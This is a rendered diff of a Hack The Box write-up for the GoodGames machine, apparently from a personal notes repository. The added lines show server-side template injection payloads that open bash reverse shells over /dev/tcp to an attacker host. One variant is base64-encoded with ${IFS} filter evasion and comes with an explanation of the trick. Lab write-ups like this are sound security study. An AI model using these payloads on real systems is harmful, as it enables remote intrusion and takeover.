

Before and after one commit to VictorAbhi/htb-writeups-and-notes, a Markdown page: 01--Red-Team/GoodGames.md, the part around one of its changes. Shown at 86% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/01--Red-Team/GoodGames.md
+++ b/01--Red-Team/GoodGames.md
@@ -53,12 +53,29 @@ sqlmap -r login_req.txt -D main -T user --dump --batch
 ```text
 {{7*7}}  --> Rendered as 49
 ```
+![ssti](/images/12.png)
 * **Remote Code Execution Payload:**
 ```python
 {{ namespace.__init__.__globals__.os.popen("bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1'").read() }}
 ```
+```
+{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yMjAvNDQ0NCAwPiYx${IFS}|base64${IFS}-d|bash').read()}}
+```
+here to acheive reverse shell we encode the shell in bases64 but why ?
+--> This is because some characters have special meanings to shells or can cause problems when passing commands through templates and intermediate interpreters.
+for example: ```bash -i >& /dev/tcp/10.10.14.23/4444 0>&1```, in this symbols like >, /,spaces contain shell descriptors and can interact with the filters and parsing roles.
+
+![ssti_to_rce](/images/13.png)
+![ssti_to_rce_](/images/14.png)
+
+A directory list of user augustus home directory shows that instead of their name, the UID 1000
+is displayed as the owner for the available files and folders. This hints that the user's home
+directory is mounted inside the docker container from the main system.
+
 * **Result:** Obtained an interactive shell as `root` inside the Docker container (`/.dockerenv` present).
 
+ Checking ```mount``` we see that the user directory from the host is indeed mounted with read/write flag enabled.
+ ![docker](/images/16.png)
 ---
 
 ## 4. Lateral Movement & Internal Network Pivoting
````
Also changed, not shown: other parts of 01--Red-Team/GoodGames.md (+33 -5 lines), images/images.png (added).
